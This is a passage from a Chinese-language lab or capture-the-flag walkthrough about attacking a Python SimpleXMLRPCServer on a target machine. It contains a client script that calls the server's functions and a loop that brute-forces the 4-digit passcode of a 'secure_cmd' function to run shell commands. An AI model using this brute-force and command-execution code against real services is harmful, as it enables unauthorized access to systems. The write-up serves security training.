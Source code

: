 没有发现任何可用信息，并且响应的数据包也看不懂

重新回到代码，查看关于SimpleXMLRPCServer的相关介绍：[xmlrpc.client — XML-RPC client access — Python 3.10.7 documentation](https://docs.python.org/3/library/xmlrpc.client.html)，`SimpleXMLRPCServer`模块为使用Python编写的XML-RPC服务器提供了一个基本的服务器框架，直接查看链接，里面有清晰的示例，照着示例编写客户端的测试代码：

测试代码1：

```plain
import xmlrpc.client

proxy = xmlrpc.client.ServerProxy("http://192.168.56.104:8000")
print(proxy.net())
```

[![](assets/1699406763-fa3ee59a532ce08052062a93edc5ffb3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104134-2abd16b4-7d17-1.png)

成功将代码中的net函数所执行的结果返回到本地，net函数功能是将靶机的ip信息返回。

查看代码中存在一个函数`secure_cmd`，包含两个参数，第一个参数为命令，第二个参数相当于密码，在代码`debugging_pass = random.randint(1000,9999)`随机设置了一个密码，当我们传递的参数等于这个密码时，传入的命令就能够得到执行，这里可以爆破这个密码：

测试代码2：

```plain
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    for i in range(1000,9999):
        message = proxy.secure_cmd("whoami",i)
        if message != "Wrong passcode.":
            print("cmd result:",message)
            print("Right passcode is:",i)
            break
        else:
            continue
```

[![](assets/1699406763-c7067b903d2ac6461cc3dae4665c227c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104155-370cd12a-7d17-1.png)
